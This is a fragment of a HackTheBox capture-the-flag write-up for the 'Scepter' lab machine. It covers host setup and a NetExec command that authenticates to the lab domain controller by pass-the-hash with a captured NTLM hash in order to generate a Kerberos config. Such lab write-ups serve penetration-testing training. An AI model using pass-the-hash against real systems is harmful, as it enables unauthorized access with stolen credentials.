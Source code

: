Generating `pfx` file and than authenticate to box.

![](/images/HackTheBox/HTB-Scepter/Pasted_image_20250718064006.png)


## Preparation

This step is not always necessary, making preparations are always good. 

`/etc/hosts` file

`10.10.11.65     dc01.scepter.htb scepter.htb dc01`

`krb5.conf` file

```bash
┌──(root㉿kali2025)-[~/Desktop/HackTheBox/machines/scepter]
└─# nxc smb dc01.scepter.htb -u d.baker -H '18b5fb0d99e7a475316213c15b6f22ce' --generate-krb5-file krb5.conf
SMB         10.10.11.65     445    DC01             [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC01) (domain:scepter.htb) (signing:True) (SMBv1:False) 
SMB         10.10.11.65     445    DC01             [+] scepter.htb\d.baker:18b5fb0d99e7a475316213c15b6f22ce 

┌──(root㉿kali2025)-[~/Desktop/HackTheBox/machines/scepter]
└─# cat krb5.conf 

[libdefaults]
    dns_lookup_kdc = true
    dns_lookup_realm = true
    default_realm = SCEPTER.HTB

[realms]
    SCEPTER.HTB = {
        kdc = dc01.scepter.htb
        admin_server = dc01.scepter.htb
        default_domain = scepter.htb
    }

[domain_realm]
    .scepter.htb = SCEPTER.HTB
    scepter.htb = SCEPTER.HTB
```
